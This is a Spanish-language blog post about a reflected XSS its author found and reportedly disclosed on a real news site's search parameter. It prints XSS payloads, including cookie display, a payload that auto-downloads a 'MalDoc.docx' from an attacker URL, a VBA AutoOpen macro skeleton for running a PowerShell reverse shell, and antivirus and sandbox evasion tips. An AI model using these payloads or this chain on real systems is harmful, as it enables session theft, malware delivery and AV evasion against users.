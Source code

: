 ```yaml
---
layout: post
title: Simple XSS reflejado en un entorno real
author: c4rta
date: 2023-06-28
##categories: [Maquinas, HackTheBox]
tags: [XSS]
image: 
  path: /assets/img/simple_xss/waifu.gif
---
```


{:.lead}

**Este no es ningun writeup, pero te voy a mostrar como encontre de casualidad una vulnerabilidad ```XSS reflejado``` en un sitio web real, cabe recalcar que la vulnerabilidad ya la reporte, y no estoy promoviendo explotar vulnerabilidades en entornos reales, y simplemente te voy a dar la idea de algo que podria hacer alguien con malas intenciones, que este no es el caso, y espero que el tuyo tampoco**

## XSS reflejado

De acuerdo a port swigger se trata de:

> Surge cuando una aplicación recibe datos en una solicitud HTTP e incluye esos datos en la respuesta inmediata de forma no segura

Es decir que en un XSS reflejado los datos que mándanos por una petición HTTP se reflejan en la respuesta que da el servidor web hacia el cliente (navegador)

Cómo dice OWASP:

> El ataque se lleva a cabo a través de un único ciclo de solicitud/respuesta

En este tipo de XSS el codigo no reside en la aplicacion web como tal y no se encuentra del lado del servidor, y regularmente un atacante puede incrustar su payload malicioso en la URL generada y enviarselo a la victima, obvio se usa ingenieria social y phishing para que sea mas creible

## Identificando el XSS

> Evidentemente voy se censurar la URL

**¿Como me di cuenta que era un XSS?**

Fue muy random, originalmente yo solo queria buscar una noticia, entonces use su barra de busqueda para encontrar lo que queria, cuando busque por un termino me di cuenta de la forma tan peculiar de la URL y como se mostraban los datos en la pagina, mira:

![](/assets/img/simple_xss/1.png)

Vean como cuando se realiza una busqueda, te manda a la ruta ```/buscar/``` la cual tiene un parametro de consulta el cual es la ```q```, como se ve en ```?q=c4rta```, asi que el parametro ```q``` es utilizado para especificar el termino que se quiere buscar, y del lado de la pagina web, el termino que busque se refleja en la pagina web

![](/assets/img/simple_xss/2.png)

Esto ya estaba curioso, asi que decidi mostrar el codigo fuente de la pagina cuando se realiza la busqueda, y por suerte encontre la funcion que realiza la busqueda

![](/assets/img/simple_xss/3_000.png)

Primero con:

```js
var searchString = document.getElementById('searchtextsimple').value;
```
Lo que esta haciendo es crear una variable llamada ```searchString``` la cual va a contener el valor del atributo ```value``` del elemento con el id ```searchtextsimple```, y ese elemento con el id es este:

```html
<input id="searchtextsimple" type="text" name="q" class="form-control" placeholder="Buscar" value="c4rta"></input>
```

Despues en el JS tenemos que nuestro input el cual esta guardado en ```searchString``` se le concatena sin ningun tipo de procesamiento ni sanitizacion a la URL a tra vez del parametro ```q```:

```js
var url = "https://<URL>/barebone/wf.template/config.default.master.withgroupcount?q=" + encodeURI(searchString);
```

Y por ultimo carga la URL para mostrarla en la web:

```js
$(".results-group.parent").load(url);
```

Entonces tenemos que nuestro input se guarda en al atributo ```value``` de  la etiqueta ```<input>``` y despues se extrae y se concatena directamente en la URL para luego ser interpretado por el sitio web, la vulnerabilidad es obvia, al yo tener control total de lo que quiero buscar y este sera interpretado, entonces puedo probar por XSS a ver si interpreta codigo de JS, ahora le ingresare esto como input:

```js
<script>alert("Prueba XSS")</script>
```

Y vean como si nos interpreta el JS y ya nos dimos cuenta que tenemos un XSS reflejado

![](/assets/img/simple_xss/4.png)

Y en la URL se incrusto el codigo de XSS

![](/assets/img/simple_xss/5.png)

Podria usar otro payload para obtener las cookies, y curiosamente este sitio web tiene un monton

```js
<script>alert(document.cookie)</script>
```
<center><img src="/assets/img/simple_xss/6.png" width=290px height=200px></center><br>

Evidentemente censure todo por que sale mi cookie de sesion asi como otras muchas, y es posible que hayas pensado que este XSS una vez teniendo la cookie de sesion podria conducir a un CSRF/XSRF, y es correcto mientras sea vulnerable a ello. pero este vez vamos a ir mas alla, por que este XSS lo vamos combinar con malware, mas en concreto algo que se le conoce como ```MalDoc```

## MalDoc

MalDoc viene de Malicious Document, y lo que podria hacer ahora es crear una macro en VBS la cual vamos a incrustar en un docx, donde la macro se ejecutara automaticamente al abrirse el documento, y vamos a aprovechar el XSS para crear un payload que al entrar a la URL vulnerable a XSS, se descargue automaticamente el documento de una URL creada por el atacante, el payload es el siguiente:

```js
<script> 
    var link = document.createElement('a');
    link.href = 'URL:8080/MalDoc.docx';
    link.download = 'MalDoc.docx';
    link.click();
</script>
```

Basicamente el escenario seria que nosotros como atacantes le mandemos a la victima la URL del sitio vulnerable con el payload, la victima abra la URL, se descargue automaticamente el docx, se redireccione al sitio original de la pagina vulnerable, la victima abra el documento que contiene una macro, la macro se ejecute y ejecuta un comando que podria ser una reverse shell

Esto pasaria si la victima abre el link con el payload:

![](/assets/img/simple_xss/7.png)

Vean como la URL tiene el payload, y el entrar al link, se descargar automaticamente el documento del sitio web del atacante, en este caso, es un servidor web que cree con python y que tiene mi IPv4.

Y entonces al abrirlo se deberia de ejecutar la macro con la reverse shell, pero ¿Como se crea la macro?, bueno, el msfvenom ya tiene modulos para crear un MalDoc y una macro maliciosa, pero estamos aprendiendo, hay que hacerlo manual, simplemente de voy a dar la idea, no lo voy a poner a prueba.

Podriamos crear un archivo VBS de esta manera:

```vb
Sub AutoOpen()
Comando_Ps = "el tipico oneliner de powershell"

Dim Shell As Object
Set Shell = CreateObject("Wscript.Shell")
Shell.Run (Comando_Ps)

End Sub
```

Basicamente lo que va a hacer es ejecutar un comando de powershell que se declare en la variable ```Comando_Ps``` a tra vez de un objeto ```Wscript.Shell```

Y ahora para incrustarla en el docuemento se puede hacer uso de ```Microsoft Visual Basic for Applications``` y guardar el documento con la macro.

Y seguramente diras: "Eso no evade ningun antivirus, y el defender lo va a detectar", y en efecto, asi que te dare unos tips

- Usa Invoke-Obfuscation
- Usa procesos VMI
- Usa StrRerverse() para agregar un poco mas de ofuscacion
- Usa WMI Win32_PingStatus para evadir sandboxes

(Estas tecnicas que acabe de mencionar, como lo de MalDoc con la macro y las tecnicas para evadir antivirus pienso dedicarles un post aparte)

> Recuerda que la vulnerabilidad ya esta reportada, y no estoy promoviendo la creacion de malware ni tampoco el explotar vulnerabilidades sin el permisos de otros, es meramente educativo e informativo.

Eso ha sido todo, gracias por leer ❤